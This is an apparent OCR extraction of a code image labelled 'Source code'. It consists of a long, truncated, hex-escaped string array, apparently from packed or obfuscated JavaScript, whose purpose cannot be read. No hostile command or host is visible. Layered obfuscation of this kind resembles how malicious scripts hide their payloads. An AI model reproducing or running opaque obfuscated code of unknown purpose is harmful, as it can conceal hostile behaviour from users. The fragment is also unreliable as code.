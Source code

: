 61\x5C\x33\x27\x2C\x27\x5C\x37\x5C\x6E\x5C\x43\x5C\x61\x5C\x4C\x5C\x37\x5C\x65\x5C\x62\x5C\x39\x5C\x34\x27\x2C\x27\x5C\x61\x5C\x6C\x5C\x63\x5C\x65\x5C\x65\x5C\x36\x5C\x33\x5C\x66\x27\x2C\x27\x5C\x37\x5C\x65\x5C\x62\x5C\x39\x5C\x34\x5C\x61\x5C\x6C\x5C\x6A\x5C\x48\x27\x2C\x27\x5C\x4C\x5C\x37\x5C\x33\x5C\x34\x5C\x66\x5C\x62\x5C\x77\x5C\x6C\x5C\x6A\x5C\x43\x27\x2C\x27\x5C\x36\x5C\x36\x5C\x65\x5C\x64\x5C\x31\x6D\x5C\x6E\x5C\x4C\x5C\x37\x5C\x33\x5C\x34\x27\x2C\x27\x5C\x66\x5C\x62\x5C\x77\x5C\x6C\x5C\x62\x5C\x65\x5C\x64\x5C\x36\x5C\x34\x5C\x39\x27\x2C\x27\x5C\x37\x5C\x33\x5C\x34\x5C\x66\x5C\x62\x5C\x77\x5C\x6C\x5C\x62\x5C\x65\x5C\x64\x27\x2C\x27\x5C\x66\x5C\x61\x5C\x34\x5C\x56\x5C\x6C\x5C\x37\x5C\x77\x5C\x65\x5C\x55\x27\x2C\x27\x5C\x33\x5C\x34\x5C\x38\x5C\x33\x5C\x66\x5C\x31\x54\x5C\x33\x5C\x66\x5C\x65\x27\x2C\x27\x5C\x31\x64\x5C\x31\x4A\x5C\x32\x5C\x33\x5C\x32\x27\x2C\x27\x5C\x65\x5C\x63\x5C\x63\x5C\x37\x5C\x33\x5C\x36\x27\x2C\x27\x5C\x31\x6F\x5C\x63\x5C\x65\x5C\x65\x5C\x36\x5C\x33\x5C\x66\x5C\x6C\x5C\x55\x5C\x66\x27\x2C\x27\x5C\x34\x5C\x6B\x5C\x6B\x5C\x33\x5C\x66\x27\x2C\x27\x5C\x63\x5C\x39\x5C\x32\x5C\x33\x5C\x38\x5C\x6C\x5C\x64\x5C\x65\x5C\x37\x27\x2C\x27\x5C\x37\x5C\x77\x5C\x65\x5C\x55\x27\x2C\x27\x5C\x6C\x5C\x61\x5C\x39\x5C\x64\x5C\x31\x30\x27\x2C\x27\x5C\x31\x6F\x5C\x61\x5C\x65\x5C\x34\x5C\x38\x5C\x6C\x5C\x42\x5C\x65\x5C\x66\x5C\x33\x27\x2C\x27\x5C\x77\x5C\x39\x5C\x38\x5C\x33\x27\x2C\x27\x5C\x31\x72\x5C\x77\x5C\x6A\x5C\x31\x45\x5C\x31\x34\x27\x2C\x27\x5C\x4C\x5C\x48\x5C\x66\x5C\x39\x5C\x38\x5C\x6C\x5C\x6B\x5C\x65\x5C\x37\x5C\x36\x27\x2C\x27\x5C\x4C\x5C\x6B\x5C\x65\x5C\x37\x5C\x36\x5C\x6C\x5C\x63\x5C\x39\x5C\x61\x5C\x36\x27\x2C\x27\x5C\x61\x5C\x65\x5C\x34\x5C\x38\x5C\x39\x5C\x64\x5C\x48\x5C\x6C\x5C\x63\x5C\x66\x27\x2C\x27\x5C\x34\x5C\x42\x5C\x33\x5C\x6E\x5C\x61\x5C\x65\x5C\x34\x5C\x38\x5C\x6C\x5C\x36\x27\x2C\x27\x5C\x39\x5C\x42\x5C\x33\x27\x2C\x27\x5C\x61\x5C\x65\x5C\x34\x5C\x38\x27\x2C\x27\x5C\x66\x5C\x6E\x5C\x4C\x5C\x64\x5C\x65\x5C\x6C\x5C\x42\x5C\x65\x5C\x66\x5C\x33\x27\x2C\x27\x5C\x39\x5C\x42\x5C\x48\x5C\x4C\x5C\x37\x5C\x64\x5C\x39\x5C\x6B\x5C\x6C\x5C\x36\x27\x2C\x27\x5C\x31\x34\x5C\x31\x77\x5C\x31\x66\x5C\x36\x5C\x66\x27\x2C\x27\x5C\x33\x5C\x41\x5C\x6E\x5C\x4A\x5C\x49\x5C\x6E\x5C\x4B\x5C\x37\x5C\x6B\x5C\x34\x27\x2C\x27\x5C\x6E\x5C\x4B\x5C\x4A\x5C\x37\x5C\x6B\x5C\x34\x5C\x64\x5C\x49\x5C\x4B\x5C\x4A\x27\x2C\x27\x5C\x38\x5C\x39\x5C\x50\x5C\x49\x5C\x6E\x27\x2C\x27\x5C\x31\x6F\x5C\x6A\x5C\x61\x5C\x65\x5C\x48\x5C\x6C\x5C\x6B\x5C\x34\x5C\x48\x5C\x33\x27\x2C\x27\x5C\x32\x5C\x31\x34\x5C\x61\x5C\x31\x64\x5C\x31\x4B\x27\x2C\x27\x5C\x66\x5C\x6E\x5C\x4C\x5C\x61\x5C\x65\x5C\x34\x5C\x38\x5C\x39\x5C\x64\x5C\x48\x27\x2C\x27\x5C\x4C\x5C\x6B\x5C\x65\x5C\x37\x5C\x36\x5C\x6C\x5C\x6A\x5C\x65\x5C\x38\x5C\x56\x27\x2C\x27\x5C\x6E\x5C\x37\x5C\x36\x5C\x66\x5C\x39\x5C\x31\x30\x5C\x33\x27\x2C\x27\x5C\x32\x47\x5C\x34\x5C\x38\x5C\x37\x5C\x35\x5C\x33\x6B\x27\x2C\x27\x5C\x4B\x5C\x38\x5C\x39\x5C\x50\x5C\x6E\x5C\x39\x5C\x38\x5C\x47\x5C\x41\x5C\x64\x27\x2C\x27\x5C\x33\x5C\x55\x5C\x6C\x5C\x6A\x5C\x65\x5C\x36\x5C\x36\x5C\x65\x5C\x42\x5C\x6C\x27\x2C\x27\x5C\x61\x5C\x38\x5C\x33\x5C\x66\x5C\x41\x5C\x4A\x5C\x49\x27\x2C\x27\x5C\x32\x47\x5C\x34\x5C\x38\x5C\x37\x5C\x72\x5C\x33\x6B\x27\x2C\x27\x5C\x33\x5C\x55\x5C\x6C\x5C\x36\x5C\x65\x5C\x6B\x5C\x6C\x5C\x34\x5C\x38\x5C\x6C\x27\x2C\x27\x5C\x31\x6F\x5C\x64\x5C\x33\x5C\x55\x5C\x6C\x5C\x6A\x5C\x65\x5C\x36\x5C\x36\x5C\x65\x27\x2C\x27\x5C\x42\x5C\x6C\x5C\x34\x5C\x38\x5C\x6C\x5C\x6B\x5C\x61\x5C\x34\x5C\x62\x5C\x33\x27\x2C\x27\x5C\x32\x34\x5C\x33\x5C\x31\x34\x5C\x31\x69\x5C\x31\x76\x27\x2C\x27\x5C\x42\x5C\x31\x66\x5C\x77\x5C\x6A\x5C\x50\x27\x2C\x27\x5C\x31\x6F\x5C\x6A\x5C\x65\x5C\x36\x5C\x36\x5C\x65\x5C\x42\x5C\x6C\x5C\x34\x5C\x38\x27\x2C\x27\x5C\x6C\x5C\x6B\x5C\x61\x5C\x34\x5C\x62\x5C\x33\x5C\x77\x5C\x65\x5C\x61\x5C\x38\x27\x2C\x27\x5C\x31\x6F\x5C\x64\x5C\x33\x5C\x55\x5C\x6C\x5C\x36\x5C\x65\x5C\x6B\x5C\x6C\x5C\x34\x27\x2C\x27\x5C\x31\x6F\x5C\x36\x5C\x65\x5C\x6B\x5C\x6C\x5C\x34\x5C\x38\x5C\x6C\x5C\x6B\x5C\x61\x27\x2C\x27\x5C\x31\x6F\x5C\x43\x5C\x6B\x5C\x6B\x5C\x33\x5C\x66\x5C\x6C\x5C\x34\x5C\x38\x5C\x6E\x27\x2C\x27\x5C\x4C\x5C\x55\x5C\x39\x5C\x38\x5C\x48\x5C\x33\x5C\x36\x27\x2C\x27\x5C\x42\x5C\x31\x71\x5C\x39\x5C\x32\x74\x5C\x42\x27\x2C\x27\x5C\x31\x42\x5C\x77\x5C\x31\x72\x5C\x31\x4E\x5C\x31\x58\x27\x2C\x27\x5C\x65\x5C\x64\x5C\x6C\x5C\x36\x5C\x66\x5C\x39\x5C\x34\x5C\x64\x5C\x48\x5C\x61\x27\x2C\x27\x5C\x50\x5C\x34\x5C\x39\x5C\x61\x5C\x34\x5C\x6A\x5C\x61\x5C\x33\x5C\x6E\x5C\x36\x27\x2C\x27\x5C\x34\x5C\x62\x5C\x33\x5C\x77\x5C\x65\x5C\x61\x5C\x38\x5C\x33\x5C\x66\x27\x2C\x27\x5C\x37\x5C\x62\x5C\x66\x5C\x39\x5C\x6B\x5C\x36\x5C\x39\x5C\x65\x5C\x64\x5C\x6E\x27\x2C\x27\x5C\x31\x42\x5C\x32\x5C\x31\x66\x5C\x31\x75\x5C\x34\x27\x2C\x27\x5C\x36\x5C\x34\x5C\x66\x5C\x48\x5C\x33\x5C\x36\x27\x2C\x27\x5C\x66\x5C\x6C\x5C\x38\x5C\x33\x5C\x37\x5C\x62\x5C\x66\x5C\x39\x5C\x6B\x5C\x36\x27\x2C\x27\x5C\x39\x5C\x65\x5C\x64\x5C\x6E\x5C\x37\x5C\x6B\x5C\x34\x5C\x64\x5C\x6E\x5C\x34\x27\x2C\x27\x5C\x41\x5C\x6E\x5C\x36\x5C\x39\x5C\x36\x5C\x61\x5C\x33\x5C\x47\x5C\x41\x27\x2C\x27\x5C\x4A\x5C\x61\x5C\x39\x5C\x49\x27\x2C\x27\x5C\x4C\x5C\x6A\x5C\x61\x5C\x65\x5C\x62\x5C\x31\x30\x5C\x6C\x5C\x39\x5C\x64\x5C\x64\x27\x2C\x27\x5C\x34\x5C\x4C\x5C\x6B\x5C\x66\x5C\x33\x5C\x50\x5C\x6C\x5C\x6B\x5C\x65\x5C\x37\x27\x2C\x27\x5C\x36\x5C\x6C\x5C\x61\x5C\x39\x5C\x64\x5C\x31\x30\x27\x2C\x27\x5C\x34\x5C\x4C\x5C\x64\x5C\x33\x5C\x32\x5C\x36\x5C\x6C\x5C\x6B\x5C\x65\x5C\x37\x27\x2C\x27\x5C\x39\x5C\x36\x5C\x61\x5C\x33\x27\x2C\x27\x5C\x31\x72\x5C\x43\x5C\x63\x5C\x32\x5C\x32\x74\x27\x2C\x27\x5C\x6E\x5C\x34\x5C\x6E\x5C\x4C\x5C\x6A\x5C\x61\x5C\x65\x5C\x62\x5C\x31\x30\x5C\x6C\x27\x2C\x27\x5C\x31\x6F\x5C\x63\x5C\x33\x5C\x33\x5C\x38\x5C\x6C\x5C\x50\x5C\x39\x5C\x33\x5C\x55\x27\x2C\x27\x5C\x39\x5C\x31\x72\x5C\x64\x5C\x36\x5C\x32\x34\x27\x2C\x27\x5C\x36\x5C\x77\x5C\x33\x5C\x39\x5C\x34\x5C\x31\x63\x5C\x36\x5C\x39\x5C\x62\x5C\x31\x30\x27\x2C\x27\x5C\x56\x5C\x31\x63\x5C\x39\x5C\x38\x5C\x33\x5C\x6A\x